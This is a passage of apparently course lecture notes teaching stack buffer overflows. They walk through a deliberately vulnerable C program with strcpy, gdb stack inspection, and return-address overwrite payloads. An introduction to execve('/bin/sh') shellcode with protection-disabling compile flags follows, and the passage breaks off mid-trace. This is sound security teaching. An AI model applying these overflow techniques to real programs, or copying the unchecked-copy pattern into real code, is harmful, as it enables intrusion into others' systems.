

# Unit 3: Stack Smashing Exploits

# Smashing the Stack for Fun and Profit

## The setup

For this class we will use the following silly program to hone our
skills at diagramming the stack and exploiting it:

``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void bad(){
  printf("You've been naughty!\n");
}

void good(){
  printf("Go Navy!\n");
}

void vuln(int n, char * str){

  int i = 0;  
  char buf[32];


  strcpy(buf,str);

  while( i < n ){
    printf("%d %s\n",i++, buf);
  }

}

int main(int argc, char *argv[]){

  vuln(atoi(argv[1]), argv[2]);

  return 0;

}
```

When not being exploited, the program will simply print the string some
number of times:

``` example
$ ./vulnerable 5 "Go Navy! Beat Army!"
0 Go Navy! Beat Army!
1 Go Navy! Beat Army!
2 Go Navy! Beat Army!
3 Go Navy! Beat Army!
4 Go Navy! Beat Army!
```

The problem, which we will shortly exploit is the use of the `strcpy()`
function which performs no bounds checking on the length of str prior to
copying into buf. We can easily crash the program with a buffer
overflow:

``` example
$ ./vulnerable 5 `python -c 'print "A"*50'`
Segmentation fault (core dumped)
```

## Inspecting the stack using gdb

To make use of the programming bug, we first better understand the
extent of the bug by inspecting the stack layout. Let's go about doing
this in GDB by checking out the registers for the base and stack
pointer:

``` example
$ gdb -q ./vulnerable 
Reading symbols from ./vulnerable...done.
(gdb) br vuln
Breakpoint 1 at 0x80484db: file vulnerable.c, line 15.
(gdb) run 5 "Go Navy!"
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 5 "Go Navy!"

Breakpoint 1, vuln (n=5, str=0xbffff895 "Go Navy!") at vulnerable.c:15
15   int i = 0;  
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
=> 0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
   0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
   0x08048502 <+45>: mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>: mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>: mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>: call   0x8048350 <printf@plt>
   0x08048516 <+65>: mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>: cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>: jl     0x80484f6 <vuln+33>
   0x0804851e <+73>: leave  
   0x0804851f <+74>: ret    
End of assembler dump.
```

Now that we are in the the function `vuln()` we can start to try and
match up memory locations with offsets from the base and stack pointer.

The easiest one to identify is the variable `i` is at `ebp-0xc` because
the instruction at `vuln+6` we initialize to zero. We can quickly verify
this in gdb by running the instruction and checkin the value of `i`.

``` example
(gdb) p i
$1 = -1209742720
(gdb) ni
19   strcpy(buf,str);
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
=> 0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
   0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
   0x08048502 <+45>: mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>: mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>: mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>: call   0x8048350 <printf@plt>
   0x08048516 <+65>: mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>: cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>: jl     0x80484f6 <vuln+33>
   0x0804851e <+73>: leave  
   0x0804851f <+74>: ret    
End of assembler dump.
(gdb) p i
$2 = 0
```

The next instructions prior to the call to `strcpy()` will reveal the
location of `buf` and `str`. We know that the order of arguments to
strcpy is first destination then source, so whichever memory address is
loaded at the stack pointer `esp` must be `buf` (the destination) and
whatever is loaded at `+4` from the stack pointer must be the string
str. Looking closely, that the address `ebp-0x2c` is eventually written
to `esp`, thus must be `buf` and `ebp+0xc` is written to `esp+0x4` and
must be `str`. We can further verify this with gdb by examining the
memory:

``` example
(gdb) x/wx $ebp+0xc 
0xbffff674: 0xbffff895
(gdb) x/s 0xbffff895
0xbffff895: "Go Navy!"
```

If we continue after the call, we'll see that now the same string has
been written to the address starting with `ebp-0x2c`:

``` example
(gdb) ni 5
21   while( i < n ){
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
=> 0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
   0x08048502 <+45>: mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>: mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>: mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>: call   0x8048350 <printf@plt>
   0x08048516 <+65>: mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>: cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>: jl     0x80484f6 <vuln+33>
   0x0804851e <+73>: leave  
   0x0804851f <+74>: ret    
End of assembler dump.
(gdb) x/x $ebp-0x2c 
0xbffff63c: 0x47
(gdb) x/s $ebp-0x2c 
0xbffff63c: "Go Navy!"
```

We now know the location of all the variables, and so we pretty much
have everything we need to diagram the entire stack layout. All that's
left is to just print out the base and stack pointer:

``` example
(gdb) i r esp ebp
esp            0xbffff620 0xbffff620
ebp            0xbffff668 0xbffff668
```

With a little more work, we get a diagram like:

[](imgs/stack_diagram_vuln.png)

## Overwriting Stack Variables

The first part of smashing the stack will be to change the control flow
of the program with respect to stack variables. Our first target is the
variable i which controls the while loop. The goal is to make it so the
loop loops less.

First lets setup the input in such a way so that we fill up the whole
buffer right up to the 32 byte boundary:

``` example
(gdb) delete
Delete all breakpoints? (y or n) y
(gdb) run 5 `python -c "print 'A'*32"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 5 `python -c "print 'A'*32"`
0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Note that in gdb we can use backticks (\`) like in the shell to do
computations. I am using python to generate 32 A's. You can see this by
running the same python command in the terminal:

``` example
user@si485H-base:2.3$ python -c "print 'A'*32"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The `-c` says to execute the single following line as a python command.

Anyway, back to the gbd terminal, if we fill the buffer with 32 bytes,
things are ok, and the behavior is normal. Let's see what happens if we
write 33 A's.

``` example
(gdb) run 5 `python -c "print 'A'*33"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 5 `python -c "print 'A'*33"`
[Inferior 1 (process 5918) exited normally]
```

Nothing happens! We get no prints. That's because we now wrote the ASCII
value of 'A' to i, which is 65 and greater than 5. But we can change the
command line argument and you'll start to see something happen:

``` example
(gdb) run 66 `python -c "print 'A'*33"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*33"`
65 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
[Inferior 1 (process 5927) exited normally]
```

Now we're getting somewhere. The variable i is equal to 65 and we should
print the string 66 times, but we only do so once. We also see that
we've somehow gained a 'B' to the output? That's because 65+1 is 66 and
in ASCII 66 is B.

We can continue this little experiment further ... keep smashing that
stack.

``` example
gdb) run 66 `python -c "print 'A'*34"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*34"`
[Inferior 1 (process 5937) exited normally]
(gdb) run 66 `python -c "print 'A'*34"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*34"`
[Inferior 1 (process 5940) exited normally]
(gdb) run 66 `python -c "print 'A'*35"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*35"`
[Inferior 1 (process 5943) exited normally]
(gdb) run 66 `python -c "print 'A'*36"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*36"`
[Inferior 1 (process 5946) exited normally]
(gdb) run 66 `python -c "print 'A'*37"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*37"`
[Inferior 1 (process 5949) exited normally]
(gdb) run 66 `python -c "print 'A'*38"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*38"`
[Inferior 1 (process 5952) exited normally]
(gdb) run 66 `python -c "print 'A'*39"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*39"`
[Inferior 1 (process 5955) exited normally]
(gdb) run 66 `python -c "print 'A'*40"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*40"`
[Inferior 1 (process 5958) exited normally]
(gdb) run 66 `python -c "print 'A'*41"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*41"`
[Inferior 1 (process 5961) exited normally]
(gdb) run 66 `python -c "print 'A'*42"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*42"`
[Inferior 1 (process 5964) exited normally]
(gdb) run 66 `python -c "print 'A'*43"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*43"`
[Inferior 1 (process 5967) exited normally]
(gdb) run 66 `python -c "print 'A'*44"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*44"`

Program received signal SIGSEGV, Segmentation fault.
0xbffff89d in ?? ()
(gdb) 
```

At 44 A's, the program segfaults. What happens here? We've now reached
some important values, namely the saved base pointer. Referring back to
the diagram, the buffer starts at `ebp-0x2c`, which is 44 bytes down the
stack. After writing the 44'th byte, we've now messed with the saved
base pointer, and the stacks can no longer be realigned and thus we
cannot reset the stack frame on return. We can also see how we've
altered the base pointer using GDB:

``` example
(gdb) run 66 `python -c "print 'A'*44"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*44"`

Breakpoint 5, main (argc=3, argv=0xbffff704) at vulnerable.c:29
29   vuln(atoi(argv[1]), argv[2]);
(gdb) x/x $ebp
0xbffff668: 0x00000000
(gdb) c
Continuing.

Breakpoint 1, vuln (n=66, str=0xbffff871 'A' <repeats 44 times>) at vulnerable.c:15
15   int i = 0;  
(gdb) c
Continuing.

Breakpoint 3, main (argc=10, argv=0x0) at vulnerable.c:31
31   return 0;
(gdb) x/x $ebp
0xbffff600: 0xbffff61c
(gdb) x/x 0xbffff61c
0xbffff61c: 0x41414141
(gdb) 
```

Before we call `vuln()` the base pointer in main references the 0x00
address, namely to deallocate the whole stack upon leave. Further notice
the address of the base pointer ends in 0xbffff6f88. After we continue
through `vuln()` and return, if we examine the base pointer again, the
address of the base pointer is 0xbffff600. How did this happen exactly?

Well we wrote 44 bytes of 'A', but a string is null terminated by 0x00
(the 45th byte) and that 0x00 overflows the array and overwrote the 88
in the saved base pointer. Now, when the base pointer is restored and
main tries to return, the new base pointer is set to something
nonsensical, and in fact references are long string of A's. The program
crashes as a result.

We're just getting started here --- what if we kept going and overwrote
the control flow? What if we overwrote the return address?

## Overwriting the Return Address

If we return to our diagram of the memory layout, our goal now is to
overwrite the return address of the vuln() function. The return address
is stored at ebp+0x4. So far, we know that we reach the base pointer
after 44 bytes, then the next 4 bytes would overwrite that, and the
following 4 bytes would be the return address. We can verify that in
gdb. Remember, when we use 48 A's, there is actually one extra byte for
the null terminator:

``` example
(gdb) run 66 `python -c "print 'A'*48"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48"`

Breakpoint 1, vuln (n=66, str=0xbffff86d 'A' <repeats 48 times>) at vulnerable.c:15
15   int i = 0;  
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
=> 0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
   0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
   0x08048502 <+45>: mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>: mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>: mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>: call   0x8048350 <printf@plt>
   0x08048516 <+65>: mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>: cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>: jl     0x80484f6 <vuln+33>
   0x0804851e <+73>: leave  
   0x0804851f <+74>: ret    
End of assembler dump.
(gdb) c
Continuing.

Breakpoint 7, vuln (n=66, str=0xbffff86d 'A' <repeats 48 times>) at vulnerable.c:21
21   while( i < n ){
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
=> 0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
   0x08048502 <+45>: mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>: mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>: mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>: call   0x8048350 <printf@plt>
   0x08048516 <+65>: mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>: cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>: jl     0x80484f6 <vuln+33>
   0x0804851e <+73>: leave  
   0x0804851f <+74>: ret    
End of assembler dump.
(gdb) x/x $ebp
0xbffff648: 0x41414141
(gdb) x/x $ebp+0x4
0xbffff64c: 0x08048500
(gdb) x/x 0x08048500
0x8048500 <vuln+43>: 0x5489d455
(gdb) x/i 0x08048500
   0x8048500 <vuln+43>: push   ebp
(gdb) x/i 0x08048502
   0x8048502 <vuln+45>: mov    DWORD PTR [esp+0x8],edx
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xb7e6320f in _IO_vfprintf_internal (s=0xb7fc6ac0 <_IO_2_1_stdout_>, format=<optimized out>, format@entry=0x804860e "%d %s\n", ap=0xbffff654 "m\370\377\277k\205\004\b", ap@entry=0xbffff64c "")
    at vfprintf.c:1661
1661 vfprintf.c: No such file or directory.
```

Following this execution, we see that after the strcpy(), we've
overwritten the lower byte of the return address with 0x00. What's
humorous about this is that this is a valid instruction point, in fact,
it's a valid instruction in the vuln() function at vuln+43. After
executing that instruction, the program will continue and eventually
call printf() again, which will not have valid values for its arguments,
which is what actually crashes the program.

As you are beginning to notice, the takeaway is that the computer is
dumb .... it will just execute whatever is next regardless of any
context. Let's take advantage of that and write something more useful.
In particular, let's get the program to run the function good() about
return. The first thing we need to know in order to do that is the
memory address of the instructions for good(). We can use gdb for that:

``` example
(gdb) ds good
Dump of assembler code for function good:
   0x080484c1 <+0>: push   ebp
   0x080484c2 <+1>: mov    ebp,esp
   0x080484c4 <+3>: sub    esp,0x18
   0x080484c7 <+6>: mov    DWORD PTR [esp],0x8048605
   0x080484ce <+13>: call   0x8048370 <puts@plt>
   0x080484d3 <+18>: leave  
   0x080484d4 <+19>: ret    
End of assembler dump.
```

The address of the start of the function is 0x080484c1 so we need to
write those bytes to the return address. Let's give it a shot:

``` example
(gdb) run 66 `python -c "print 'A'*48+'\x08\x04\x84\xc1'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\x080484c1'"`

Program received signal SIGSEGV, Segmentation fault.
0x38343008 in ?? ()
```

That didn't work, but we did crash the program. Let's see if we can
figure out what happened:

``` example
(gdb) run 66 `python -c "print 'A'*48+'\x08\x04\x84\xc1'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\x08\x04\x84\xc1'"`

Breakpoint 8, vuln (n=0, str=0xbffff869 'A' <repeats 48 times>, "\b\004\204\301") at vulnerable.c:21
21   while( i < n ){
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
=> 0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
   0x08048502 <+45>: mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>: mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>: mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>: call   0x8048350 <printf@plt>
   0x08048516 <+65>: mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>: cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>: jl     0x80484f6 <vuln+33>
   0x0804851e <+73>: leave  
   0x0804851f <+74>: ret    
End of assembler dump.
(gdb) x/x $ebp+0x4
0xbffff63c: 0xc1840408
```

Interesting. All the bytes are there, but they are in reverse! We forgot
that x86 machines use Little Endian, which means that the most
significant byte is in the right most position. Let's reverse the bytes:

``` example
(gdb) run 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'"`

Breakpoint 8, vuln (n=0, str=0xbffff869 'A' <repeats 48 times>, "\301\204\004\b") at vulnerable.c:21
21   while( i < n ){
(gdb) c
Continuing.
Go Navy!

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

Woohoo! It worked. We got "Go Navy!" to print. But, our program still
had a segmentation fault. Why?

This happened because we were able to change the return address for the
vuln() program which returned control to good() instead of to main(),
but this is not a call instruction. It is more like a jmp instruction.
The difference being that call does more than jmp, in particular, it
will push the return address onto the stack prior to the jmp so that
control can be properly returned. We can do that too, we just need to
write one more address on the stack to where we want good() to return
to. Because we're being bad, why not have it call bad()?

``` example
(gdb) ds bad
Dump of assembler code for function bad:
   0x080484ad <+0>: push   ebp
   0x080484ae <+1>: mov    ebp,esp
   0x080484b0 <+3>: sub    esp,0x18
   0x080484b3 <+6>: mov    DWORD PTR [esp],0x80485f0
   0x080484ba <+13>: call   0x8048370 <puts@plt>
   0x080484bf <+18>: leave  
   0x080484c0 <+19>: ret    
End of assembler dump.
(gdb) run 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08\xad\x84\x04\x08'"`
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08\xad\x84\x04\x08'"`

Breakpoint 8, vuln (n=134513837, str=0xbffff800 "") at vulnerable.c:21
21   while( i < n ){
(gdb) c
Continuing.
Go Navy!
You've been naughty!

Program received signal SIGSEGV, Segmentation fault.
0xbffff800 in ?? ()
```

And finally, we can go a bit nuts and have multiple calls to good() and
bad():

``` example
(gdb) run 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\x56\x85\x04\x08'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\x56\x85\x04\x08'"`

Breakpoint 8, vuln (n=134513837, str=0x80484c1 <good> "U\211\345\203\354\030\307\004$\005\206\004\b\350\235\376\377\377\311\303U\211\345\203\354H\307", <incomplete sequence \364>)
    at vulnerable.c:21
21   while( i < n ){
(gdb) c
Continuing.
Go Navy!
You've been naughty!
Go Navy!
You've been naughty!

Program received signal SIGSEGV, Segmentation fault.
0x08048556 in main (argc=<error reading variable: Cannot access memory at address 0x41414149>, argv=<error reading variable: Cannot access memory at address 0x4141414d>) at vulnerable.c:33
33 }
```

At this point, you should feel like the master of your computer. It's
good to give a good hardy laugh: "Bwahaha!"

# Shell Code and System Calls in x86

## What is "shell code"?

The term shellcode refers to a small bit of binary code that can launch
a shell (e.g., like a bash shell). Once you have a shell on a system,
then you can do a lot of good (or bad).

Shell code fits into the stack smashing from the last class in that it
is the code we wish to execute once the return address is overwritten.
Like before, our exploit string will overrun a buffer and rewrite the
return address, but instead of jumping to some function, we'll jump back
into the data we overrun the buffer with. That data should be the shell
code.

However, before we can do all of that, we first need to better
understand shell code, what is good vs. bad shell code, and how to use
it. Good shell code is compact and contains no NULL bytes. In later
lessons, we will write our own shell code; today, we'll use a very
standard example of shell code. *This example was based on a post* *from
a blog called Security Bits that seems to have disappeared into the
Internet, here is the [Internet
Archive](https://web.archive.org/web/20120710010645/http://badishi.com/basic-shellcode-example)
of the original article.*

## Executing a Shell in C and in x86

Before we dive into the details of shellcode, let's discuss how we
actually execute a shell in x86 which is just the execution of another
program, like the execve() system call. Something like this:

``` c
/*shell.c*/
#include <unistd.h>

int main() {

    char *args[] = {"/bin/sh", NULL};

    execve(args[0], args, NULL);
    return 0;
}
```

Recall back to systems programming, and you'll remember that a system
call is invoked by interrupting the normal flow of a program, context
switching the operating system in, which then performs the actual tasks
of the system call. In this case, that task will be replacing the
current program binary with another program's binary, the `/bin/sh`
program.

Let's take a look at how we get there in the dissembler. First, we need
to make sure we compile our program using static reference so we can
fully see how this works:

``` example
$ gcc -fno-stack-protector -z execstack -Wno-format-security -g -mpreferred-stack-boundary=2 --static    shell.c   -o shell
```

Then we can use gdb to poke around:

``` example
(gdb) ds main
Dump of assembler code for function main:
0x0804887c <+0>:push   ebp
0x0804887d <+1>:mov    ebp,esp
0x0804887f <+3>:sub    esp,0x8
0x08048882 <+6>:mov    DWORD PTR [ebp-0x8],0x80bb708
0x08048889 <+13>:mov    DWORD PTR [ebp-0x4],0x0
0x08048890 <+20>:mov    eax,DWORD PTR [ebp-0x8]
0x08048893 <+23>:push   0x0
0x08048895 <+25>:lea    edx,[ebp-0x8]
0x08048898 <+28>:push   edx
0x08048899 <+29>:push   eax
0x0804889a <+30>:call   0x806c820 <execve>
0x0804889f <+35>:add    esp,0xc
0x080488a2 <+38>:mov    eax,0x0
0x080488a7 <+43>:leave  
0x080488a8 <+44>:ret    
End of assembler dump.
(gdb) ds execve
Dump of assembler code for function execve:
0x0806c820 <+0>:push   ebx
0x0806c821 <+1>:mov    edx,DWORD PTR [esp+0x10]
0x0806c825 <+5>:mov    ecx,DWORD PTR [esp+0xc]
0x0806c829 <+9>:mov    ebx,DWORD PTR [esp+0x8]
0x0806c82d <+13>:mov    eax,0xb
0x0806c832 <+18>:call   DWORD PTR ds:0x80ea9f0
0x0806c838 <+24>:pop    ebx
0x0806c839 <+25>:cmp    eax,0xfffff001
0x0806c83e <+30>:jae    0x8070780 <__syscall_error>
0x0806c844 <+36>:ret    
End of assembler dump.
(gdb) x/2i *0x80ea9f0
0x806f250 <_dl_sysinfo_int80>:int    0x80
0x806f252 <_dl_sysinfo_int80+2>:ret    
(gdb) 
```

Now if we put all the instructions together that lead to the intrupt
instruction `int` which invokes the operating system:

``` example
0x0806c821 <+1>:mov    edx,DWORD PTR [esp+0x10]                                                                                                                                                                       
0x0806c825 <+5>:mov    ecx,DWORD PTR [esp+0xc]                                                                                                                                                                        
0x0806c829 <+9>:mov    ebx,DWORD PTR [esp+0x8]                                                                                                                                                                        
0x0806c82d <+13>:mov    eax,0xb                      
(...)
0x806f250 <_dl_sysinfo_int80>:int    0x80
0x806f252 <_dl_sysinfo_int80+2>:ret    
```

Recall that the arguments to `execve` are `execve(args[0],args,NULL)`
and the memory references offset from `esp` at 0x8, 0xc, and 0x10
correspond to those arguments. The tasks is matching those values up
with the setup in `main()`, which should correspond to 0x0, 0x4, and 0x8
offset from esp in main.

To see why, let's trace the operations in main program beginning with
some intialization.

``` example
0x0804887f <+3>:sub    esp,0x8
